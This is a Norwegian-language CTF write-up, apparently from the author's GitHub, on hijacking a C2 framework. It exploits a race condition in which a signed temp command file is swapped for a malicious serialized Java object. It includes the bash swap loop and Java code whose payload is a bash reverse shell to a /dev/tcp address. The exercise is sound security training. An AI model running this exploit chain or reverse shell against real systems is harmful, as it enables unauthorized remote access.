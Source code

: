
## Writeup av hvordan jeg tok over C2-infrastrukturen ved å injisere et ondsinnet javaobjekt.

Jeg deltok i Etterretningstjenestens CTF høsten 2022, og denne writeupen tar for seg en av oppgavene.

<br>
<br>

Følgende kodesnutt viser litt av serverkoden for C2-rammeverket

```python
@app.route(PREFIX + "<client_id>/commands", methods=["POST"])
def add_command(client_id):
    upload_file = request.files.get("file", None)
    if not upload_file:
        logger.warning("missing file argument")
        return Response("", 400)

    with tempfile.NamedTemporaryFile(dir=WORKSPACE) as f:
        command_file = f.name
        upload_file.save(command_file)            # <------------------- her er sårbarheten
        print(f"saved file as {f.name}")
        try:
            obj = Command(f)      # <-------- filen blir deserialisert og verifiserer 
            obj.verify()          #           bla. at filen inneholder riktig signatur

            logger.info(f"registering new command for client {client_id}")
            add_command_to_db(client_id, obj.run_after, command_file)       # <--------- lagrer kommandoen i database 
            return Response(f"OK\n", 200)                                   #            som klientene sjekker i ny og ne

        except:
            logger.exception("invalid command or signature")
            return Response("", 400)
```

C2-rammerverket var satt opp slik at angriperen kunne sende en javaserialisert kommando (via POST-request) til klienter tilnyttet C2-serveren. Dersom kommandoen hadde riktig signatur ble den lagret i en database. Denne databasen fungerte som et postkontor hvor alle klienter koblet seg på for å se om det var lagret nye kommandoer til dem.

Jeg hadde tilgang til maskinen som kjørte denne C2-serveren, og målet mitt var å få tilgang til en eller flere klienter. Jeg prøvde å lage ondsinnede javaserialiserte kommandoer og sendte disse direkte til en av klientene, men dette gikk ikke fordi jeg ikke hadde riktig signatur.

Etter å ha studert server-koden fikk jeg øye på at kommandoen ble først lagret som en tmp-fil før den ble deserialisert og signatur sjekket. Kanskje kunne jeg utnytte dette ved å bytte ut en legitim kommando med min egen.

<br>
<br>

Siden tmp-filen ble slettet med en gang kommandoen var blitt lagret i databasen måtte jeg skrive et enkelt bash-script som byttet ut den legitime kommandoen med min egen:

```bash
cd .../   # Mappen hvor server lagrer både log-filer og kommando-fil i tmp-format
		      # tmp-filen blir slettet ganske fort
while true;
do
	var=$(ls | wc -l)   # Lagre antall filer i mappen i `var` (.log osv tas ikke med, derfor `ls` for å ikke telle med skjulte filer)
	if [ $var -eq 1 ]   # Hvis `var` == 1, da har server lagret tmp-filen
	then
		for f in `ls`
		do 
			echo "- $f created\n- Replacing with malicious object"
			sleep .001    # Sleep slik at koden får tid til å gjennomføre signatur-sjekk på den legitime kommando-filen
			base=$(basename -- "$f")    # Lagre tmp-navnet i variabel `base`
			mv -v $base ../   # Flytt den legitime kommando-filen bort
			cp ../evil_config $base   # Kopier ond kommando-fil til det samme tmp-navnet som den legitime filen hadde
			break   # Nå vil databasen ane fred og ingen fare og lagre den onde kommando-filen
		done
	fi
done
```
<br>

Kode for å lage det ondsinnede javaobjektet:

```java
import commands.Command;
import commands.Execute;
import utils.Config;
import java.io.*;
import java.time.Instant;

public class evilSerial {

    public static void writeObject(ObjectOutputStream var1) throws IOException {

        Config cfg = new Config();
        Command exec = new Execute();

        exec.recipient = "DEADBEEFDEADBEEF";
        exec.runAfter = Instant.now();
        exec.value = "exec bash -i &>/dev/tcp/10.1.194.171/1337 <&1";
        cfg.id = "DEADBEEFDEADBEEF";
        cfg.serverURL = "http://shady-aggregator.utl/f52e6101/";
        cfg.sleepDuration = 15;
        cfg.pendingCommands.add(exec);
        var1.writeObject(cfg);
}

    public static void main(String[] args) throws IOException {

        FileOutputStream fos = new FileOutputStream("evil_config");
        ObjectOutputStream os = new ObjectOutputStream(fos);
        writeObject(os);
        os.close();
    }

}
```

<br>

Video av gjennomføring:

![](https://github.com/vegkva/writeups/blob/main/etjenesten_h%C3%B8st22/C2/ezgif-5-710a3f6a0c.gif)

Vindu til høyre:
- Først sendes det en legitim kommando til en av de infiserte klientene (DEADBEEFDEADBEEF) via C2-serveren (shady-aggregator)
- I server-koden gjøres det en signatursjekk av kommando-objektet
- Dersom signaturen feiler, vil ikke kommandoen sendes videre til klienten
- Når signaturen er sjekket og validert lagres kommandoen i en database som sender til klienter hver gang de sjekker inn.
- Men før kommandoen lagres i databasen blir den lagret som en tmp-fil i "/tmp/.../" (denne løsningen sammen med linux-rettigheter er hva som blir utnyttet)

Vindu til venstre:
- Her kjøres det et skript som hele tiden sjekker om kommandoen (eks. tmp15gj3H2) er lagret i "/tmp/.../"
- Når kommandoen er lagret, fjernes den og blir erstattet med mitt eget java-objekt med "reverse shell"

Mappen "/tmp/.../" har 777 rettigheter. Det har altså ingen betydning at tmp-filen eies av c2 med 700 rettigheter.

